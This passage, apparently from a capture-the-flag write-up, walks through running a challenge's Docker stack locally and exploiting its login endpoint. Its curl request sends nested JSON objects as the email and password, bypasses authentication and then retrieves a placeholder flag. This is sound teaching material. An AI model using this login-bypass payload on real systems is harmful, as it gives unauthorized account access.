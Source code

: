 Indeed, as we can see from the config file any requests to `do-report` gets redirected to `/forbidden`.

At this point I started thinking, what can one do assumming a request to `POST /do-report` can be made? In `docker` environments, it is possible to directly `exec` into a container and run commands from it. Let's start running our application locally!

We first run the entire application with `docker-compose up -d`

We can then list out the available docker containers with `docker ps -a`:

```bash
└─$ docker ps -a                      
CONTAINER ID   IMAGE           COMMAND                  CREATED      STATUS       PORTS                                   NAMES
7c623c1e94c5   mysql           "docker-entrypoint.s…"   4 days ago   Up 2 hours   3306/tcp, 33060/tcp                     distrib_db_1
455383c8aaf4   distrib_app     "/usr/bin/dumb-init …"   4 days ago   Up 2 hours                                           distrib_app_1
18b75193db78   distrib_proxy   "/opt/ts/bin/traffic…"   4 days ago   Up 2 hours   0.0.0.0:80->8080/tcp, :::80->8080/tcp   distrib_proxy_1
586b3eb5af97   redis           "docker-entrypoint.s…"   4 days ago   Up 2 hours   6379/tcp  
```

In this case, we are interested in the `distrib_app_1` container. Let's `exec` into it using `docker exec -it distrib_app_1 bash`.

Let's try making a request to the `GET /token` endpoint using curl:

```bash
└─$ docker exec -it distrib_app_1 bash
inmate@455383c8aaf4:~/app$ curl -i -X POST --url "http://localhost:8000/login" -H "Content-Type: application/json" --data '{"email":{"email":1}, "password":{"password":1}}'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Security-Policy: default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; frame-ancestors 'none'
Cross-Origin-Opener-Policy: same-origin
Content-Type: application/json; charset=utf-8
Content-Length: 21
ETag: W/"15-uFFjCr0SbbbFb/CsC0M2sF++swo"
Set-Cookie: connect.sid=s%3AForqUI9QC1EH4IIG7ssnAddye3ZcLN1y.NYDgLr4jqh8UFtdOorml%2Bv2CFFhzHvZ3LQ8%2B5%2FnzTjI; Path=/; Expires=Mon, 12 Sep 2022 19:00:24 GMT; HttpOnly
Date: Sun, 11 Sep 2022 19:00:24 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"Success"}
```

```bash
inmate@455383c8aaf4:~/app$ curl --url "http://localhost:8000/token" -H "Cookie: connect.sid=s%3AForqUI9QC1EH4IIG7ssnAddye3ZcLN1y.NYDgLr4jqh8UFtdOorml%2Bv2CFFhzHvZ3LQ8%2B5%2FnzTjI;"
#### Omitted ####
<p>Your token is TISC{0:1:2:3:4:5:6:6:8:9}</p></p></div>
```

